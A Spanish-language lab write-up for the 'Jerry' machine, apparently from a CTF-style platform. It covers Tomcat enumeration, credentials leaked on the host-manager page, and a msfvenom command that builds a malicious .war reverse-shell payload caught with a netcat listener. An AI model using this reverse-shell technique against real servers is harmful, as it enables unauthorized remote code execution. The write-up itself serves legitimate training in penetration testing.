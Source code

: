 ```yaml
---
title: Jerry
---
```


![jerry](../../../../../assets/jerry.png)

En esta máquina explotamos credenciales filtradas y una versión de Tomcat desactualizada que permite la subida de archivos maliciosos **.war**.  

## Enumeración 

Iniciamos nuestra enumeración con **nmap** y nos revela que el puerto **8080** está abierto.  
![nmap](../../../../../assets/jerry/nmap.png)

## Reconocimiento
Al entrar en la página y navegar por ella, veo que al darle a *_Host_Manager_* e ingresar credenciales erróneas, aparece un *pop-up* para loguearte y te redirige instantáneamente a **/host-manager/html**. Ahí se filtran las credenciales y solo tienes que iniciar sesión con ellas.

![credentials](../../../../../assets/jerry/credemtials.png)

Una vez dentro nos encontraremos en el panel de administración, donde podremos subir un archivo malicioso **.war** que nos dará una _reverse shell_.

## Explotación 

Buscando un poco por internet vi que con **msfvenom** podemos crear un archivo **.war** que, al subirlo, nos brinde una _reverse shell_.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

Luego lo subes y te diriges a la ruta donde se guardó; el mismo Tomcat te da el hipervínculo para acceder a él.  

En paralelo, nos ponemos en escucha:  
```bash
nc -nlvp PORT
```
<span style="font-size:12px">_Antes de entrar a la ruta, debemos estar en escucha esperando la reverse shell_</span>

Una vez dentro solo tendremos que ir al **_Desktop_** del usuario _Administrador_ y ahí encontrarás las dos flags.

### Reflexión

Una máquina bastante sencilla, no tiene mucho misterio, pero sirve para empezar a tener contexto de lo que es la filtración de credenciales y la subida/creación de archivos maliciosos con **msfvenom**. Poco más. La verdad, no es muy interesante, pero sí es útil como base.  

![flags](../../../../../assets/jerry/flags.png)

# FIN
